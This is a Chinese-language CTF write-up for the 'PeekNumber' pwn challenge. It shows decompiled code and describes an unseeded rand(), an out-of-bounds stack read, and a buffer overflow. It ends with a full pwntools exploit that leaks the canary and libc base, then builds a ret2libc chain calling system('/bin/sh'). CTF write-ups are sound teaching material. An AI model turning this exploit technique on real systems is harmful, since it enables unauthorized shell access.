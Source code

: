 ## PeekNumber
##### 罗承煜 523031910624

### 题目分析
由标题可知，本题的情景是猜数字游戏，把./pwn2放进IDA中，反编译得到
```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-64h] BYREF
  int v5; // [rsp+10h] [rbp-60h] BYREF
  int v6; // [rsp+14h] [rbp-5Ch]
  int i; // [rsp+18h] [rbp-58h]
  int j; // [rsp+1Ch] [rbp-54h]
  _DWORD v9[12]; // [rsp+20h] [rbp-50h]
  char buf[24]; // [rsp+50h] [rbp-20h] BYREF
  unsigned __int64 v11; // [rsp+68h] [rbp-8h]

  v11 = __readfsqword(0x28u);
  v6 = 0;
  v5 = 0;
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  for ( i = 0; i <= 9; ++i )
  {
    v9[i] = rand() % 0x10000;
    v6 += v9[i];
  }
  puts("I can give you the hint of the secret number.");
  puts("You have 9 chances to peek:");
  for ( j = 0; j <= 8; ++j )
  {
    __isoc99_scanf("%d", &v4);
    printf("The secret number is %d\n", v9[v4]);
  }
  puts("Do you know what's the sum of the secret number?");
  __isoc99_scanf("%d", &v5);
  if ( v6 == v5 )
  {
    puts("You are right!");
    puts("Please tell me your name:");
    read(0, buf, 0x100u);
    printf("Hello %s, you are the winner!\n", buf);
  }
  else
  {
    puts("Sorry, you are wrong.");
  }
  return 0;
}
```
##### 重要变量：
    v9：一个数组，用rand函数随机生成了十个数填充进去
    v6：存放v9中十个数的和

##### 漏洞发现：
    rand函数没有设置随机数种子，意味着使用默认随机数种子（1），也即每次运行的结果都是一样的，10个数字的和是```265349```
    在输入下标获取9个数字信息的时候，没有对下标进行越界检查，可以在此进行溢出获得对应地址的信息
    猜数字成功后，```read(0, buf, 0x100u)```函数存在溢出，可以在此调用system('/bin/sh')

##### 难点
本题源代码中并没有system函数和'/bin/sh'字符串，但可以用ret2libc，因为libc中有system函数和'/bin/sh'，所以只要知道了libc的基地址和相关信息的偏移地址就能成功调用system('/bin/sh')

### 解题步骤
首先想想怎么利用9次的查询机会获得更多信息，查看地址存放信息
![addr](image.png)
rbp-5C:存放随机数的和（v6）
rbp-50:存放rands首地址（v9）
rbp+08:main函数返回地址，我们可以用libc.libc_start_main_return获取main函数在libc中的偏移量，相减即可得到libc基地址
rbp+18:存放main的真实地址
rbp+28：存放环境变量的真实地址，环境变量在栈上，所以可以根据与rbp的相对地址计算rbp的真实地址
代码如下：
```
sum_rbp =-0x5C
canary_rbp =-0x8
main_rbp = 0x18
envp_rbp = 0x28
env_rbp = 0x7FFFFFFFD758- 0x7FFFFFFFD640 # 0x118
main_ret = 0x29D90

sum: int = u32(leak(sum_rbp, 4)) # 265349
log.success(f'sum: {sum}')

canary: bytes = leak(canary_rbp, 8)
log.success(f'canary: {hex(u64(canary))}')

main: int = u64(leak(main_rbp, 8))
log.success(f'main: {hex(main)}')
exe.address += main - exe.sym['main']

rbp: int = u64(leak(envp_rbp, 8))- env_rbp
log.success(f'rbp: {hex(rbp)}')

libc_base: int = u64(leak(0x8, 8))- main_ret
log.success(f'libc base: {hex(libc_base)}')
libc.address += libc_base
```

可以用elf模块设置elf基地址：
```
def r(canary: bytes, rbp: int)-> bytes:
    r = ROP(libc, rbp + buf_rbp)
    r.raw(buf * b'A') # buf
    r.raw(canary) # canary
    r.raw(1) # old rbp
    r.raw(r.ret.address) # return address
    r.system(b'/bin/sh')
    # print(r.dump())
    return r.chain().ljust(read_buf)
```
### 完整代码如下：
先运行
```
from pwn import *

exe_path = './pwn2'
suffix = '_remotelibc'
ELF.patch_custom_libraries(exe_path, '.', True, suffix）
```

再运行
```
from pwn import *

context.arch = 'amd64'

exe = ELF('./pwn2_remotelibc')
libc = exe.libc

step = 4
count = 9
rand_rbp =-0x50

sum_rbp =-0x5C
canary_rbp =-0x8
main_rbp = 0x18
envp_rbp = 0x28
env_rbp = 0x7FFFFFFFD758- 0x7FFFFFFFD640 # 0x118
main_ret = 0x29D90 # libc.libc_start_main_return

buf_rbp =-0x20
buf = 24
read_buf = 256

# rop
def r(canary: bytes, rbp: int)-> bytes:
    r = ROP(libc, rbp + buf_rbp)
    r.raw(buf * b'A') # buf
    r.raw(canary) # canary
    r.raw(1) # old rbp
    r.raw(r.ret.address) # return address
    r.system(b'/bin/sh')
    # print(r.dump())
    return r.chain().ljust(read_buf)

io = process(exe.path)
# gdb.attach(io, 'b *main+281')
# io = remote('202.120.7.16', 29746)

 # 泄露rbp[rbp_offset:][:size]处的内存
def leak(rbp_offset: int, size: int)-> bytes:
    global count
    start = (rbp_offset - rand_rbp) // step
    stop = (rbp_offset - rand_rbp + size - 1) // step + 1
    count -= stop - start
    data = bytearray()
    for i in range(start, stop):
        io.sendline(str(i).encode())
        io.recvuntil(b'The secret number is ')
        rec = io.recvline(False)
        data.extend(int(rec).to_bytes(step, 'little', signed=True))
    return bytes(data[rbp_offset % step :][:size])

sum: int = u32(leak(sum_rbp, 4)) # 265349
log.success(f'sum: {sum}')

canary: bytes = leak(canary_rbp, 8)
log.success(f'canary: {hex(u64(canary))}')

main: int = u64(leak(main_rbp, 8))
log.success(f'main: {hex(main)}')
exe.address += main - exe.sym['main']

rbp: int = u64(leak(envp_rbp, 8))- env_rbp
log.success(f'rbp: {hex(rbp)}')

libc_base: int = u64(leak(0x8, 8))- main_ret
log.success(f'libc base: {hex(libc_base)}')
libc.address += libc_base

while count > 0:
    leak(rand_rbp, 4)

io.sendlineafter(b"Do you know what's the sum of the secret number?\n",
str(sum).encode())

io.sendlineafter(b'Please tell me your name:', r(canary, rbp))

io.interactive()
```